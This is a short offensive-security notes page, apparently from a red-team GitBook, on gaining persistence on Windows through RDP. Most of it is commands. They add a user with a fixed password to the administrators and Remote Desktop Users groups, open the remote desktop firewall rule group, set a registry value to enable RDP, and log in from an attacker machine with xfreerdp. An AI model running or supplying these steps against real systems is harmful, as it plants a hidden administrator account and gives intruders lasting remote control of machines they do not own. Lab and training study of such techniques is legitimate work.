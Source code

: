 # Persistence Techniques



### Gaining persistence via RDP

We add a user using the `net user` utility.&#x20;

```
net user FValkyrie_17 Test@1234 /add
net localgroup administrators FValkyrie_17 /add
net localgroup "Remote Desktop Users" FValkyrie_17 /add
```

In case you forget setting a password, you can set it as follows:

```
net user FValkyrie_17 Test@1234
```

Disable firewall rules using:

```
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

And enable RDP using:

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption><p>Enabling RDP</p></figcaption></figure>

Now on the attacker machine, we can RDP into the target using `xfreerdp` tool.

```
xfreerdp /u:FValkyrie_17 /p:Test@1234 /v:10.10.10.95
```
